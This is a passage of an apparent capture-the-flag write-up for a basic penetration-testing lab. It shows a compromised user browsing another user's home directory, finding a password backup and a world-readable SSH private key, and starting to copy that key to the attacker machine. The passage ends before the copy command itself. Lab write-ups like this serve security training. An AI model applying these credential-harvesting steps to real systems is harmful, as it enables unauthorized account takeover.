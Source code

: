 ```bash
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ 

```
### I got a passowrd backup file ```pass.bak``` but i dont have permision to it.
## Let Check SSH 
```bash
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:/home/kay/.ssh$ 
```

# 8. Transfering rsa key to our System using ```Scp``` 
```sudo apt install openssh-client```
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ sudo service ssh start   
[sudo] password for death: 
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ ifconfig                                    
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 176  bytes 14224 (13.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 176  bytes 14224 (13.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.17.120.99  netmask 255.255.128.0  destination 10.17.120.99
        inet6 fe80::94b7:64a1:2c1e:82c6  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 144120  bytes 26102469 (24.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 158204  bytes 21129588 (20.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
```